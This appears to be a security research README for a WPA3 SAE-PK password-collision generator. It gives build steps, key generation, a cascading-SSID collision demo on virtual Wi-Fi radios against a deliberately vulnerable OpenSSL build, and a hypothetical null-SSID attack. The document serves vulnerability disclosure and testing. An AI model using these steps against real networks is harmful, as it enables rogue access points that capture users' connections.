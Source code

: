 # WPA3 SAE-PK Password Collision Generator

## Prerequisites

First install some dependencies:

	# Kali Linux and Ubuntu:
	sudo apt-get update
	sudo apt-get install libnl-3-dev libnl-genl-3-dev libnl-route-3-dev libssl-dev \
		libdbus-1-dev git pkg-config build-essential macchanger net-tools python3-venv \
		aircrack-ng rfkill

Then compile hostapd and `sae_pk_gen`:

	cd hostapd
	cp defconfig .config
	make -j 2
	make sae_pk_gen
	cd ..


## Generation cascading SSIDs collisions

First generate a private key:

	openssl ecparam -name prime256v1 -genkey -noout -out example_key.der -outform der

Now generate a password collision as follows:

	cd hostapd
	./sae_pk_gen cascade example_key.der 3 "FreeWifi 2.4 GHz! "

The tool will construct SAE-PK password collisions for the SSIDs `FreeWifi 2.4 GHz! `, `FreeWifi 2.4 GHz`, ...,
`Free`, and `Fre`. You can see example output in [`sae_pk_gen.txt`](hostapd/sae_pk_gen.txt).


## Testing Using Virtual Interfaces

### Building the tools

Compile `wpa_supplicant`:

	cd wpa_supplicant
	cp defconfig .config
	make -j 2
	cd ..

The latest OpenSSL is no longer affectec by the parsing flexibilities that we abuse.
For our demo attack you need to compile a local OpenSSL build that is still vulnerable
to our attack:

	./init_openssl.sh

The above command will clone the OpenSSL code and build it.


## Create Virtual Wi-Fi Interfaces

Create the virtual interfaces

	sudo modprobe mac80211_hwsim radios=3

Disable Wi-Fi in the network manager so your operating system won't interfere with our Wi-Fi tests.
The do enable Wi-Fi for manual usage using:

	sudo rfkill unblock wifi

Alternatively, you can blacklist the MAC address of your
Wi-Fi dongle so that Linux will automatically ignore the Wi-Fi dongle. This is done by adding
the [following lines](https://wiki.archlinux.org/index.php/NetworkManager#Ignore_specific_devices)
to the file `/etc/NetworkManager/NetworkManager.conf`:

	[keyfile]
	unmanaged-devices=mac:02:00:00:00:00:00

Replace `02:00:00:00:00:00` with the MAC addess of your (virtual) Wi-Fi dongle and then reboot.

## Start the AP and client

You can take the output from `sae_pk_gen` to create a configuration for the client and AP to
confirm the SAE-PK password collision attack. This repository also has two ready-made configurations
where a password collision was constructed for the networks `FreeWifi 2.4 GHz` and `FreeWifi`.

Let's confirm that the client can connect to the `FreeWifi 2.4 GHz` configuration:

	# Open a new terminal, and in the directory hostapd execute:
	cd hostapd
	sudo ./hostapd hostapd_longssid.conf -dd -K
	# Open another terminal, and in the directory wpa_supplicant execute:
	cd wpa_supplicant
	sudo ./client.sh -D nl80211 -i wlan2 -c supp_longssid.conf -dd -K

Note that `client.sh` will start `./wpa_supplicant` using our local build of OpenSSL.
Now let's confirm that the client can connect **using the same password** to `FreeWifi`:

	# Open a new terminal, and in the directory hostapd execute:
	cd hostapd
	sudo ./hostapd hostapd_shortssid.conf -dd -K
	# Open another terminal, and in the directory wpa_supplicant execute:
	cd wpa_supplicant
	sudo ./client.sh -D nl80211 -i wlan2 -c supp_shortssid.conf -dd -K

If you inspect [`supp_longssid.conf`](wpa_supplicant/supp_longssid.conf) and [`supp_shortssid.conf`](wpa_supplicant/supp_shortssid.conf)
you will see that the client used the same SAE-PK password in both configurations, confirm that
the SAE-PK password collision was successfull.


## Appendix: Null SSID Attack

**Note: this is a hypothetical attack if SSIDs longer than 32 characters are allowed.**
Currently SSIDs are limited to a maximum of 32 bytes meaning this attack is currently
only feasible against clients that incorrectly are willing to connect to networks with
a name longer than 32 bytes.

First generate two private keys:

	openssl ecparam -name prime256v1 -genkey -noout -out example_key1.der -outform der
	openssl ecparam -name prime256v1 -genkey -noout -out example_key2.der -outform der

Now generate a password collision as follows:

	cd hostapd
	./sae_pk_gen nullssid example_key1.der example_key2.der 3 Network Network_Other

The tool will output configuration lines to configure two APs.
Note that the first SSID `Network` must be a prefix of the other SSID `Network_Other`.
We can only generate password collisions for SSIDs where one is a prefix of the other.
The two private keys can be the same key.

